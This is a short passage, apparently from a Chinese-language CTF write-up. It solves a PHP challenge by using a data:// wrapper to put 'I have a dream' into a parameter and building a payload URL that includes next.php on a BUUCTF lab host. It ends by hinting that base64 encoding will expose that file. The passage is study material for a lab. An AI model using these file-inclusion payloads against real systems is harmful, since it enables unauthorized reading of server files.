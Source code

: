 ![upload successful](./images/pasted-277.png)
打开网页，发现部分源码，分析需要对将I have a dream写入text中，在这里我们使用代码

<code>?text = data://text/plain,I have a dream</code>

故构造payload:<code>http://4d13bfcf-007d-413d-b3d0-56e680f91582.node4.buuoj.cn:81/?text=data://text/plain,I%20have%20a%20dream&file=next.php</code>

![upload successful](./images/pasted-278.png)
next.php内容没有显示，使用base64加密
